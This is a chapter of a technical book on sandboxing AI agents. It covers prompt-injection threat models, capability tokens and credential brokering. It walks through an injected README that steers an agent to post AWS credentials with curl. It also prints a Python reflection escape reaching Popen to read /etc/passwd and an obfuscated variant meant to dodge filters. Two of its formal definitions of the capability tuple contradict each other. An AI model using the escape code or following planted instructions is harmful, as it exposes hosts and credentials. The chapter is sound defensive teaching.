



# Agent Sandboxes {#sec-vol3-sandboxes}

::: {layout-narrow}
::: {.column-margin}

\chapterminitoc

:::

::: {.content-visible when-format="pdf"}
\noindent
{fig-alt="Blueprint for Agent Sandboxes."}
:::

::: {.content-visible unless-format="pdf"}
{fig-alt="Blueprint for Agent Sandboxes."}
:::

:::

## Purpose {.unnumbered .unlisted}

\begin{marginfigure}
\mlagentstack{0}{0}{0}{100}{0}{0}
\end{marginfigure}

_Why must the limit on what an agent's code can reach be enforced below the model rather than requested of it?_

Within a few turns, a coding agent that installs a dependency, reads its documentation, and runs a test suite has executed code that neither its operator nor the model wrote and has read text that anyone on the internet could have written. The model reads that text in the same sequence as its instructions, so a sentence planted in a fetched page can steer the next tool call as readily as the system prompt can, and no instruction to the model can make that call safe. A permitted call also runs code whose reach the permission never describes. A shell command granted to run tests can read a credentials file, open a socket to any host, or leave a background process waiting for the next tenant. The limit therefore has to be a property of where the code runs, meaning which files it can see, which secrets exist beside it, which destinations its packets can reach, and what survives when its lease ends. Those limits cost start-up latency and memory on every trajectory, and a runtime that cannot pay those costs quickly will be tempted to weaken the boundary instead. Sandboxing is where the runtime closes the authority exposure of H·S·A for the code an action actually runs, sizing each envelope to the authority a task holds and to the horizon over which it holds it.

::: {.content-visible when-format="pdf"}

\newpage

:::

::: {.callout-learning-objectives}

- Explain why prompt instructions and in-process filters cannot bound what agent-run code reaches, using the injection threat model.
- Map each authority level, from read access to irreversible action, to the blast radius its containment must bound.
- Design capability grants that narrow within a trajectory and keep credentials outside the sandbox through a broker.
- Select an isolation envelope from the code an agent runs, the authority it holds, and how long it holds it.
- Design a per-trajectory workspace that shares one base image, preserves work across turns, and resets between tenants.
- Construct egress and dataflow policies that cut the exfiltration channel, from metadata endpoints and DNS tunnels to tainted tool arguments.
- Calculate sandbox pool size, memory, and burst drain time from trajectory arrival rate, lease duration, and snapshot restore latency.

:::

## The Agent Threat Model {#sec-vol3-sandboxes-threat-model}

A coding agent is asked to fix a failing test in a service repository. On turn six it reads the README of a vendored dependency to learn how the library is configured. Near the bottom, inside an HTML comment that the rendered page never shows, a line addressed to automated assistants asks them to upload the environment configuration to a diagnostics endpoint before running any tests. On turn seven the model proposes a `run_shell` call whose command posts `~/.aws/credentials` to that endpoint with `curl`. The call is well formed, `run_shell` is a tool the task was granted, and the command string passes every check that @sec-vol3-tool-calling placed at the tool boundary.

::: {.column-margin}
{width="100%" fig-alt="H·S·A locator with the Authority axis highlighted in purple; Horizon and State axes unlit."}

*Authority bounded beneath the model, limiting what code can change, read, and send.*
:::

The model reads its system prompt, its tool schemas, and the README it fetched a moment earlier as one sequence of tokens, and nothing in that sequence marks which tokens may issue commands. This is indirect prompt injection [@greshake2023not], which @sec-vol3-intro-prompt-injection named. Provenance tags and quarantine framing (@sec-vol3-context-engineering-staging, @sec-vol3-persistent-quarantine) tell the model which text is untrusted and lower the probability that it follows a planted instruction, but they cannot make following one impossible. Benchmark suites that plant instructions inside tool outputs [@zhan2024injecagent; @debenedetti2024agentdojo] accordingly report attack success as a rate, and they find that rate above zero for the models and prompt-level defenses they evaluate. The same proposal can also arrive with no attacker at all. A sampled `rm -rf` aimed one directory too high, or a migration run against the wrong database, is an unsafe proposal the model produced under entirely benign conditions [@amodei2016concrete]. In both cases the grant of @sec-vol3-tool-calling-mcp did its job. It decided that this session may call `run_shell`, and it could not see what the command inside the call would reach once it ran. That reach is what this chapter bounds.

Three conditions made the README attack work. The agent could reach private data (the credentials file), it read untrusted content that could steer its proposals (the README), and it had a channel for sending data out (an unrestricted network route). Remove any one and the attack has nowhere to go. An agent that holds no secrets has nothing to leak, an agent that reads no untrusted text receives no planted instructions, and an agent with no outbound channel cannot deliver what it read. A useful coding agent must read the internet and must touch real repositories, so the runtime rarely removes a condition outright. It shrinks each one instead, and the chapter follows that plan. Capabilities and credential brokering (@sec-vol3-sandboxes-least-privilege) keep private data out of the sandbox. The isolation envelope (@sec-vol3-sandboxes-microvms) and the workspace inside it (@sec-vol3-sandboxes-cow) bound what code can touch. Egress control (@sec-vol3-sandboxes-network) narrows the network channel, and taint tracking (@sec-vol3-sandboxes-taint) keeps untrusted text from choosing where data goes through the tools that remain. Pools and their reset contract (@sec-vol3-sandboxes-pooling) make all of this cheap enough that no one is tempted to switch it off.

### The instruction-data cohabitation dilemma {#sec-vol3-sandboxes-cohabitation}

When an operating system kernel dispatches instructions to a classical processor, it relies on a foundational architectural invariant: the physical hardware enforces a rigid, hardware-mediated separation between executable instructions and untrusted application data. The processor's Memory Management Unit (MMU) checks page-table protection bits on every memory cycle, enforcing Write XOR Execute ($W \oplus X$) permissions that prevent writable data buffers from executing as machine code, while hardware privilege rings cleanly isolate the supervisor kernel (Ring 0 on x86-64, Exception Level 1 on ARM64) from unprivileged user-space processes (Ring 3 or Exception Level 0). If an unprivileged application attempts to execute a privileged instruction, dereference an unmapped address, or overwrite kernel memory, the hardware synchronously raises an architectural exception. Execution traps immediately to a registered kernel vector, halting the offending thread in a deterministic, inspectable state.

An agent runtime has no such hardware bit to check. The model reads system directives, tool schemas, and untrusted observations retrieved from external sources as a single, contiguous sequence of tokens. The multi-head attention mechanism applies identical Key and Value projection matrices across the entire sequence, computing dot-product similarities across all token pairs without architectural distinction between trusted instructions and adversarial data payloads.

For a context window of length $L = 32{,}768$ tokens containing an untrusted external retrieval payload of $N_{\text{data}} = 4{,}096$ tokens, the pairwise attention computation expands across all token interactions:
$$
\text{Total Attention Pairs} = L^2 = (32{,}768)^2 = 1{,}073{,}741{,}824\text{ pairs}
$$
The cross-attention interactions between untrusted external data tokens and internal instruction tokens account for:
$$
\text{Untrusted Cross-Pairs} = N_{\text{data}} \times L = 4{,}096 \times 32{,}768 = 134{,}217{,}728\text{ pairs}
$$
which constitutes:
$$
\frac{134{,}217{,}728}{1{,}073{,}741{,}824} = 12.5\%\text{ of total prefill attention compute}
$$
Within this unified dense matrix, an adversarial injection can steer the next-token distribution toward generating well-formed, schema-valid tool invocations that execute with the ambient privileges of the runtime supervisor. The threat vectors separating classical OS processes from autonomous agent execution planes are summarized in @tbl-vol3-threat-domains.

| Protection Dimension             | Classical Operating System (Saltzer & Schroeder 1975)                                  | Autonomous Agentic Runtime                                                                                                       |
|:---------------------------------|:---------------------------------------------------------------------------------------|:---------------------------------------------------------------------------------------------------------------------------------|
| **Instruction-Data Segregation** | Hardware-enforced ($W \oplus X$, MMU page tables, separate code/data segments).        | Non-existent; instruction-data co-inhabitation in flat transformer token context.                                                |
| **Authority Model**              | Ambient authority derived from process UID/GID and parent process inheritance.         | Zero ambient authority; candidate proposals held in host memory escrow.                                                          |
| **Failure Mode & Signaling**     | Fail-stop; hardware traps, segmentation faults, synchronous POSIX signals (`SIGSEGV`). | Fail-plausible (@sec-vol3-intro-fail-plausible); fluent, syntactically valid commands masking catastrophic semantic destruction. |
| **Reference Monitor**            | Kernel space (Ring 0 / EL1) mediating access to hardware resources via syscall table.  | Host agent runtime supervisor intercepting typed tool proposals before execution dispatch.                                       |
| **Containment Perimeter**        | Process virtual address space, memory segmentation, hardware privilege rings.          | Multi-tier virtualization: namespace isolation, seccomp-bpf, microVMs, egress proxies.                                           |

: **Structural comparison of classical operating system protection boundaries versus autonomous agent execution threat planes**: Protection dimensions across instruction-data segregation, authority models, failure modes, reference monitors, and containment perimeters. {#tbl-vol3-threat-domains}

::: {#dfn-blast-radius .callout-definition title="Blast radius"}

***Blast radius***\index{Blast radius!definition} is the set of state that an action can read, change, or send outside its sandbox, as fixed by the runtime's enforcement rather than by what the model was asked to do.

1.  **Significance**: It is the quantity that the envelope, the capabilities, and the egress policy jointly bound, and the containment a task needs grows with the authority level it holds.
2.  **Distinction**: The authority level of a task states what it is permitted to do. Its blast radius states what it could do if every model-side defense failed at once.
3.  **Common pitfall**: Sizing the blast radius by the tools the model is told to use, rather than by everything the code behind those tools can reach.

:::

### Blast radius by authority level {#sec-vol3-sandboxes-blast-radius}

The authority levels of @sec-vol3-intro-hsa rank what a task may do to the world, and each level leaves a different blast radius when a proposal is wrong. @Sec-vol3-tool-calling-mcp set what the grant demands at each level before a call runs. @Tbl-vol3-sandboxes-authority-radius supplies the other half, pairing each level with what can go wrong once the call's code runs and with the containment that level obligates.

| Authority level                                | What a wrong proposal can damage                                      | Containment the runtime must supply                                                    |
|:-----------------------------------------------|:----------------------------------------------------------------------|:---------------------------------------------------------------------------------------|
| **$A_0$ (read access)**                        | Confidentiality: anything read can leave through any outbound channel | Scoped read capabilities, no secrets in the sandbox, default-deny egress, taint checks |
| **$A_1$ (sandboxed mutation)**                 | Only the discardable workspace, and only while the envelope holds     | An isolation envelope, a copy-on-write workspace, reset between tenants                |
| **$A_2$ (retry-safe or compensable external)** | External systems, reached through credentials                         | Brokered, scoped credentials plus settlement and compensation                          |
| **$A_3$ (irreversible external)**              | External systems, permanently                                         | All of the above plus an approval gate that no sandboxed code path can bypass          |

: **Blast Radius by Authority Level**: Each authority level of the H·S·A exposures pairs with what a wrong proposal can damage and with the containment the runtime must supply before any code runs. {#tbl-vol3-sandboxes-authority-radius}

Two rows deserve emphasis because they are where designs most often under-provision. Read access is not a zero blast radius (@sec-vol3-intro-hsa), and the README attack shows the mechanism, since it mutated nothing and needed only a read followed by a send. At the other end, a sandbox cannot make an $A_3$ action safe. A payment or a production migration takes effect outside any envelope, so the sandbox's job is only to guarantee that no code path inside it can reach such an action except through the approval gate of @sec-vol3-controlplane-hitl. The $A_2$ row depends on settlement (@sec-vol3-tool-calling-idempotency) and compensation (@sec-vol3-failure-recovery) as much as on containment.

Containment beneath the model (principle \ref{pri-vol3-zero-trust-sandboxing}) turns the table into a design rule. Every dispatched action runs inside an envelope enforced by a layer below the code it contains, and nothing inside that envelope reaches the host, another tenant, or the network except through channels the runtime controls. The invariant closure principle (\ref{pri-invariant-closure}) explains why the rule is stated this way. A model-side measure such as framing, safety fine-tuning, or a guard classifier lowers the probability of a bad proposal, while only a mechanical check below the model bounds what the proposal can do.

::: {#fig-vol3-threat-model fig-env="figure" fig-pos="htb" fig-cap="**Layered Containment Beneath the Model**: A candidate tool call from the model, here a schema-valid `curl` induced by injected text, passes three layers before any effect reaches protected assets. Mediation checks the schema, the grant, the capability, and, for irreversible actions, an approval gate. The execution envelope runs the code behind a separate guest kernel with a minimal system-call allowlist, a copy-on-write workspace, and resource caps. Egress admits traffic only to named destinations through a proxy that holds the credentials, and filters DNS. A breach requires every layer to fail." fig-alt="Four-column diagram. The left column shows the model with its context window, where instructions and injected data share one sequence, emitting a schema-valid curl command. Three stacked layers in the center are labeled mediation, execution envelope, and egress, each with three component boxes such as capability attenuation, separate guest kernel, copy-on-write workspace, packet filter, egress proxy with brokered credentials, and split-horizon DNS. The right column lists protected host assets, namely the host kernel, host filesystem and repositories, and cloud identity and secrets, all marked unmodified or unreachable."}

:::

@Fig-vol3-threat-model traces the README attack through the three layers. Mediation admits the call, because `run_shell` was granted and the command is well typed. The execution envelope confines the command to a guest whose filesystem holds no credentials file, since credentials never enter the sandbox. Egress drops the upload, because the diagnostics endpoint is not on the allowlist. Each layer fails independently of the others, so a flaw in one (an over-broad grant, a guest kernel bug, a permissive proxy rule) leaves the other two in place. The envelope also gives the runtime evidence the model cannot supply. Asking the model whether its script is safe only produces another proposal (@sec-vol3-intro-epistemic-boundary), whereas the envelope lets the runtime observe which files a command opened and which hosts it tried to reach.

The engineering question is what each layer is built from, and the first place an engineer usually tries to build the envelope is the language runtime the harness is already running.

## Why In-Process Sandboxes Fail {#sec-vol3-sandboxes-in-process-failure}

A data-analysis agent writes Python to summarize a CSV file, and the harness runs that code with `exec()` inside its own interpreter, passing a stripped dictionary of globals and perhaps rejecting scripts whose syntax tree mentions `import` or `eval`. The design is attractive because it costs nothing to start and reuses the libraries the harness has already loaded. It fails in four ways, and every one of them has the same cause: the code doing the enforcing and the code being policed share one process address space.

The first failure is reflection. Removing `os` and `__import__` from globals deletes names, not objects. In Python, every value links to its class, every class links to its base, and the universal base class can enumerate every class loaded in the process. @Lst-vol3-sandbox-escape walks that chain from an empty tuple to a process-launching class, without the script ever naming a forbidden module. Every dynamic language offers an equivalent path; in JavaScript, the constructor of any function literal reaches the global scope.

::: {#lst-vol3-sandbox-escape lst-cap="**Reflection Escape from Restricted Globals**: Walking the object graph from an empty tuple to a class that launches processes, without referencing any forbidden module name."}
```python
# 1. Reach the universal base class from any literal
root_object = ().__class__.__base__

# 2. Enumerate every class currently loaded in the process
live_subclasses = root_object.__subclasses__()

# 3. Find a class that can start processes
popen_cls = [cls for cls in live_subclasses if cls.__name__ == "Popen"][0]

# 4. Launch a process, bypassing the sanitized globals entirely
popen_cls(["cat", "/etc/passwd"])
```
:::

### Dynamic heap object traversal and reflection bypasses

Removing a variable name from an interpreter dictionary breaks only a single symbolic reference; it does not destroy the underlying object in memory, nor does it sever the bidirectional pointers that link every object instance back to the root of the runtime's type hierarchy.

In Python, every object instance maintains a pointer to its class object via the `__class__` attribute. That class object points to its parent class via `__base__`, which ultimately terminates at the universal base class `object`. Crucially, `object` maintains an internal registry of every class defined within the runtime's address space via the `__subclasses__()` method. Any benign literal instantiated in untrusted code—an empty tuple `()`, an empty string `""`, or a literal integer—provides an immutable traversal anchor from which an adversary can walk the heap inheritance tree, locate a dormant system utility class, and instantiate an unconstrained shell executor.

Static filters attempting to inspect Abstract Syntax Trees (ASTs) for forbidden identifiers are fundamentally defeated by runtime dynamic reflection:

```python
# Reflection obfuscation evading static string filtering
attr_name = "".join(["_", "_", "sub", "classes", "_", "_"])
payload = bytes.fromhex("5f5f737562636c61737365735f5f").decode()
root_class = ().__class__.__base__
subclasses = getattr(root_class, attr_name)()
```

By Rice's theorem, deciding whether an arbitrary program in a Turing-complete language will invoke a prohibited method at runtime is undecidable. Any filter strict enough to eliminate all dynamic reflection paths cripples the language for legitimate data-analysis tasks.

### Native memory corruption exploits

Even if an interpreter runtime could theoretically achieve total verification of its bytecode and reflection graphs, modern machine learning workflows break the boundary through native C/C++ extensions. An agent tasked with analyzing data, manipulating images, or calculating tensors invokes compiled binaries through foreign function interfaces (FFI), linking libraries such as NumPy, Pillow, PyTorch, and libvips directly into the interpreter's address space.

These compiled extensions lack memory safety. When an agent executes a model-generated script that loads an image or manipulates an array, execution passes directly to compiled C routines. A heap buffer overflow, integer overflow, or use-after-free vulnerability in the native library allows adversarial input to overwrite the process's physical memory pages directly.

::: {#fig-vol3-ffi-memory-collapse fig-env="figure" fig-pos="htb" fig-cap="**Foreign Function Interface Memory Boundary Collapse**: Breakdown of in-process interpreter sandboxing under native C/C++ extension execution. An untrusted agent script invokes compiled libraries (such as Pillow or NumPy) via the CPython Foreign Function Interface (FFI). A native heap buffer overflow breaches allocated chunk boundaries, corrupting adjacent heap arenas, `PyTypeObject` vtables, and stack return addresses within the shared 64-bit address space. This enables arbitrary code execution and direct invocation of privileged host system calls under ambient credentials." fig-alt="Stevens-style 64-bit virtual memory address space schematic showing User Space Ring 3 containing Python bytecode interpreter, PyTypeObject heap structures, and native C extension heap, where a buffer overflow corrupts heap arenas and return addresses to hijack execution into Kernel Space Ring 0 via host system calls."}

:::

As diagrammed in @fig-vol3-ffi-memory-collapse, execution unfolds across a single 64-bit Virtual Memory Area (VMA) sharing ambient credentials. At the top of user space (Ring 3), the Python interpreter executes agent bytecode. When the agent invokes native routines via `ctypes` or C-extension bindings, control transfers to memory-unsafe compiled C libraries. When malicious input triggers an out-of-bounds write, the heap buffer overflow corrupts adjacent heap arenas and smashes internal CPython metadata—specifically the function pointers of `PyTypeObject` method tables (`tp_call`, `tp_iternext`). Control flow hijacking redirects execution to adversary shellcode. Because the process shares the host kernel's system call interface (`sys_call_table`), the compromised thread directly issues privileged host system calls (`sys_execve`, `sys_ptrace`), transitioning execution into Ring 0 kernel space and collapsing host isolation without ever breaching the user-space process boundary.

The in-process Trusted Computing Base ($TCB_{\text{in-process}}$) encompasses the entire interpreter runtime and all natively linked libraries:
$$
TCB_{\text{in-process}} = 800\text{k} + 350\text{k} + 2{,}500\text{k} + 600\text{k} = 4{,}250{,}000 \text{ lines of memory-unsafe code}
$$
By contrast, decoupling execution into a strictly mediated external boundary reduces privileged system call exposure:
$$
\text{Attack Surface Reduction} = \frac{S_{\text{host}} - S_{\text{isolated}}}{S_{\text{host}}} = \frac{450 - 12}{450} = \frac{438}{450} \approx 97.33\%
$$

### Ambient authority under a shared identity

The final failure of in-process sandboxing is ambient authority at the operating system boundary. When an agent runtime evaluates untrusted code in-process, that code executes under the identical process identifier (PID), user identifier (UID), and group identifier (GID) as the supervisor application itself:

1. **Shared File Descriptor Table**: Any open file descriptor held by the host process—database connections, internal logging pipes, local state databases, or network sockets—is accessible to untrusted in-process code via unmediated `sys_write` calls.
2. **Virtual Memory Exposure**: Confidential memory pages—including host API tokens, private SSH keys, and system environment variables stored in `environ`—reside in readable memory pages within the same address space.
3. **Shared System Call Table**: The untrusted code can invoke any system call supported by the host kernel, probing loopback network interfaces (`127.0.0.1`), inspecting neighbor processes via `/proc`, and registering signal handlers that intercept termination attempts from the host supervisor.

@saltzer2009 state the principle these failures violate: an isolation mechanism must be implemented by a layer below the code it controls, which is the same reason the invariant closure principle (\ref{pri-invariant-closure}) places mechanical bounds below the model. An in-process monitor cannot provide the complete mediation of @sec-vol3-tool-calling-unix-analogy, because a script that corrupts memory or walks the object graph compromises the monitor along with everything else. The code the agent runs must therefore live in a separate process, and usually behind a separate kernel. A separate process, however, still runs as somebody, and if it runs as the developer who launched the agent it inherits everything that developer can do.

## Capabilities and Credentials {#sec-vol3-sandboxes-least-privilege}

Suppose the harness moves tool execution into a subprocess that runs under the developer's own account. After reading injected text, the model proposes `read_file(path="/Users/alice/.ssh/id_rsa")`. The operating system allows the read, because `alice` owns the file and the process runs as `alice`. The harness has become a confused deputy [@hardy1988confused], a privileged program that a less privileged party (here, text in the model's context) has induced to misuse its authority. Access control lists check who is running, not who asked, and in an agent the party asking includes the author of every token in the context window.

::: {.column-margin}
**The Confused Deputy**
Norm Hardy described a compiler, permitted to write a billing file, that a user tricked into overwriting that file by naming it as an output path. An agent harness running tools under a developer's identity is in the compiler's position.
:::

The capability model [@saltzer1975; @miller2006robust] removes ambient authority. Authority travels with an unforgeable reference that names both a resource and the rights held over it, and a process can act only on what it holds a reference to. @Tbl-vol3-ambient-vs-capability contrasts the two models along the dimensions that matter for an agent.

| Dimension                   | Ambient authority (access control lists)    | Capability-based authority                           |
|:----------------------------|:--------------------------------------------|:-----------------------------------------------------|
| **Source of authority**     | The identity the process runs as            | Possession of an unforgeable token                   |
| **How resources are named** | Global names such as paths and IP addresses | Handles or signed tokens that designate the resource |
| **Default**                 | Anything the identity may touch             | Nothing without a token                              |
| **Delegation**              | All of the identity's rights, or none       | Any subset, down to one file or one method           |
| **Confused deputy**         | The default outcome                         | Excluded by construction                             |
| **Revocation**              | Global policy change                        | Token expiry or handle closure                       |

: **Ambient vs. Capability-Based Authority**: The two authority models compared along the dimensions that decide whether an agent's tool process can be steered into misusing its identity. {#tbl-vol3-ambient-vs-capability}

A capability is how the grant of @sec-vol3-tool-calling-mcp reaches below the tool boundary. The grant is the runtime's decision that this session may invoke this tool. The capability carries that decision into the sandbox as a token scoped to the resources the grant covers, and the sandbox's drivers check it on every access, so a granted `run_shell` can read only the paths its capability names.

### The capability check

This book writes a capability as $C = (R, O, P, E)$, signed with a key only the runtime holds. $R$ is the set of rights (read, write, execute, connect), $O$ the objects it designates (path prefixes, host names, repositories), $P$ a predicate that bounds arguments and cost, and $E$ the expiry time. A proposal $a$ names an operation, a target, and arguments. The runtime approves it only if every condition holds:

$$\text{Verdict}(a, C, t) = \begin{cases} \text{APPROVE} & \text{if } \text{VerifySig}(C) \land a.\text{op} \in C.R \land a.\text{target} \sqsubseteq C.O \land \text{Cost}(a) \le C.P \land t < C.E \\ \text{REJECT} & \text{otherwise} \end{cases}$$

::: {#fig-vol3-capability-attenuation fig-env="figure" fig-pos="htb" fig-cap="**Capability Checks and Attenuation**: The reference monitor on the left intercepts each proposal $a$ with its capability $C = (R, O, P, E)$ and approves it only if the signature verifies, the operation is among the rights $R$, the target lies within the objects $O$, the cost fits the predicate $P$, and the expiry $E$ has not passed. On the right, the root grant $C_0$ attenuates as work is delegated, so a research worker receives read access and allowlisted egress, an implementation worker receives write access to one source tree with no network, and a test runner receives execute access with writes revoked. No child ever holds a right its parent lacks." fig-alt="Two-part diagram. On the left, a reference monitor box lists a proposal a and a token C equals R, O, P, E, then five checks for token integrity, rights, resource scope, temporal lease, and quota bound, then approve and reject outcomes and the monotonic attenuation invariant. On the right, a tree descends from a root task holding capability C0 to two subagents, a read-only research worker C1A and an implementation worker C1B with no network egress, and from C1B to a test runner C2A with write access revoked, each box listing its rights, scope, budget, and lease duration."}

:::

@Fig-vol3-capability-attenuation shows the check on the left. A rejected proposal changes nothing, returns a structured observation that the model can act on, as the error-shaping discipline of @sec-vol3-tool-calling-schemas requires, and leaves an entry in the trajectory log. The check itself is cheap. Verifying a message authentication code takes microseconds, while the model call that produced the proposal takes seconds, so mediating every access adds nothing a user could measure.

Under classical access control, the operating system evaluates ambient credentials:
$$\text{Process } (\text{euid}=1000) \xrightarrow{\texttt{open(\"/etc/shadow\")}} [\text{Kernel ACL Check}: \text{euid} \stackrel{?}{=} 0] \implies \textbf{DENIED}$$
In an unmediated agentic runtime, however, the supervisor becomes a confused deputy:
$$\text{Untrusted Injected Context} \xrightarrow{\text{\"Read API Key\"}} [\text{Supervisor } (\text{euid}=1000)] \xrightarrow{\texttt{open(\"~/.aws/credentials\")}} \textbf{ALLOWED}$$

### Formal capability verification and monotonic attenuation

An explicit capability token $C$ is formally defined as a 4-tuple:
$$
C = (R, O, P, E)
$$
where $R$ is the canonical resource identifier (such as a normalized filesystem path or network URI), $O$ is the set of authorized operations (e.g., $\{\text{READ}, \text{WRITE}\}$), $P$ represents structural parameter constraints (such as maximum file size or byte offset bounds), and $E$ is the epoch timestamp after which the capability expires.

When an agent proposes an action $P$, the supervisory boundary evaluates the request against active capabilities:
$$
\text{Verdict}(P, C, t) = \begin{cases} \text{APPROVE} & \text{if } \text{VerifySig}(C) \land P.\text{op} \in C.O \land P.\text{res} \in C.R \land t < C.E \\ \text{DENY} & \text{otherwise} \end{cases}
$$

Furthermore, when an agent delegates tasks to sub-agents, authority must attenuate monotonically:
$$
C_{\text{child}} \sqsubseteq C_{\text{parent}} \iff C_{\text{child}}.O \subseteq C_{\text{parent}}.O \land C_{\text{child}}.R \subseteq C_{\text{parent}}.R \land C_{\text{child}}.E \le C_{\text{parent}}.E
$$
A child context can never acquire rights exceeding those held by its creator. Any attempt to escalate privileges triggers an immediate supervisory fault:

```bash
# Attempted privilege escalation trapped at the supervisory boundary
[2026-09-19T10:14:22.401Z] WARN  supervisor: Trajectory 0x8F9C requested CAP_SYS_ADMIN
[2026-09-19T10:14:22.402Z] ERROR supervisor: Capability check failed: target privilege exceeds parent grant
[2026-09-19T10:14:22.402Z] INFO  supervisor: Revoking execution token; terminating sandbox instance
```

### Attenuation within a trajectory

A coding trajectory does not need the same authority from its first turn to its last. It explores the repository and reads documentation, edits files in its workspace, runs the tests, and finally proposes a change. Each phase needs less than the union of all four. The runtime therefore narrows the capability at each phase boundary and widens it only through a new grant from outside the trajectory, such as an approval. The rule is monotonic attenuation. A derived capability $C_j$ is valid only if some held capability $C_i$ covers it:

$$C_j \sqsubseteq C_i \iff (R_j \subseteq R_i) \land (O_j \subseteq O_i) \land (P_j \implies P_i) \land (E_j \le E_i)$$

The rights and objects can only shrink, the predicate can only add constraints, and the expiry can only move earlier. Consider a trajectory that holds read and write access to its repository for five minutes:

$$\begin{aligned}
C_{\text{edit}} &= \big(R=\{\text{read}, \text{write}\},\ O=\text{"/workspace/repo"},\ E=T_0 + 300\text{ s}\big) \\
C_{\text{test}} &= \big(R=\{\text{read}, \text{execute}\},\ O=\text{"/workspace/repo"},\ E=T_0 + 120\text{ s}\big) && [\text{rejected: execute} \notin R_{\text{edit}}] \\
C_{\text{scan}} &= \big(R=\{\text{read}\},\ O=\text{"/workspace/repo/src"},\ E=T_0 + 120\text{ s}\big) && [\text{valid: } C_{\text{scan}} \sqsubseteq C_{\text{edit}}]
\end{aligned}$$

The second line is rejected even though it looks narrower, because it asks for a right the parent never held. A runtime that wants the test phase must include execute in the grant it issues at the start and then drop write when testing begins. Dropping write during tests matters for evaluation as well as safety. It keeps the trajectory from editing the tests it is being judged by, one of the conditions for the sealed-test evidence level of @sec-vol3-intro-closure-evidence. The same relation governs authority passed between agents, as the subagent tree on the right of @fig-vol3-capability-attenuation shows, and @sec-vol3-multiagent-authority develops that case.

::: {#chk-08-confused-deputy-defense .callout-checkpoint title="Ambient authority and capabilities"}
Before moving on to secrets and credentials, verify that you can answer the following:

- [ ] **Ambient authority**: Why does running tools under the developer's user identity turn the harness into a confused deputy?
- [ ] **Grants vs. capabilities**: What does a capability add to the per-call grant decided at the tool boundary?
- [ ] **Attenuation**: Why must a trajectory's test phase run with write access revoked, and why can it not gain execute access it was never granted?
:::

### Credential brokering {#sec-vol3-sandboxes-credential-brokering}

Capabilities decide what the sandbox may name. They do not decide which secrets sit inside it. A sandbox started with a repository token in an environment variable hands that token to every line of code that runs there, including code an injected instruction wrote. The README attack needed nothing more than `cat` and `curl` once a credentials file was present.

Credential brokering keeps long-lived secrets out of the sandbox entirely. The sandbox's outbound requests pass through the egress proxy of @sec-vol3-sandboxes-network, and the proxy attaches the credential only after checking the request against the trajectory's capability for destination, method, and resource. Code inside the sandbox sees no token, or a placeholder that is useless anywhere else. An exfiltrated environment dump then contains nothing worth stealing. The broker can also mint credentials per trajectory, scoped to one repository or one API and expiring with the lease, and it logs every use against the trajectory that made it. The cost is that the broker must understand the protocols it injects into, such as authorization headers on HTTPS requests. Tools that insist on a local key file need either a broker-side signing agent or a short-lived credential restricted to a single target. The cloud instance's own identity requires the same treatment. A link-local metadata endpoint that hands out the host's credentials to any local caller is a credential dispenser inside the sandbox's reach, and egress control must block it.

Capabilities and brokering bound the authority the runtime issues. Both assume the code cannot bypass the checks by attacking the kernel underneath them, and whether that assumption holds depends on the envelope the code runs in.

